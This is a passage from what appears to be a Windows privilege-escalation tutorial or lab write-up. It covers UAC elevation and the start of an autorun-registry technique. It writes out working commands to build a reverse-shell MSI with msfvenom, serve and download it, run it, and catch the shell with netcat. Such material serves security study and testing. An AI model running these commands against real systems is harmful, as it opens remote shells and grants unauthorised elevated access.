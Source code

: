 If we execute Process Hacker as Administrator we can see the process tree:

{{< image src="/images/posts/process-hacker-autoelevate.png" caption="Process Hacker AutoElevate " src_s="/images/posts/process-hacker-autoelevate.png" src_l="/images/posts/process-hacker-autoelevate.png" >}}

> Note: In the case that you don't see the process tree, double click on the Name column to change the view. You may need to double click (change the view) multiple times.

Alternatively, we can just generate an MSI reverse shell:

```shell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.119.130 LPORT=443 -f msi -o implant.msi
```

> Note: This can be easily detected by modern AVs.

Setup an HTTP listener with python:

```shell
sudo python3 -m http.server
```

Download the malicious MSI file to the current working directory:

```powershell
wget 192.168.146.128:8000/reverse.msi -o reverse.msi
```

Attempt to install reverse.msi by executing the following command:

```powershell
 .\reverse.msi
```

In the UAC, click `Yes` and wait for the connection:

{{< image src="/images/posts/registry-uac.png" caption="UAC Registry " src_s="/images/posts/registry-uac.png" src_l="/images/posts/registry-uac.png" >}}

Receive the connection:

```shell
sudo nc -lvnp 443
```


# Privilege Escalation via Autorun Registry

Run PowerShell or the command prompt as administrator and then create the directory:

```powershell
PS C:\Windows\system32> md "C:\Program Files\Autorun Program"


    Directory: C:\Program Files


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----          3/6/2022   8:03 PM                Autorun Program
```
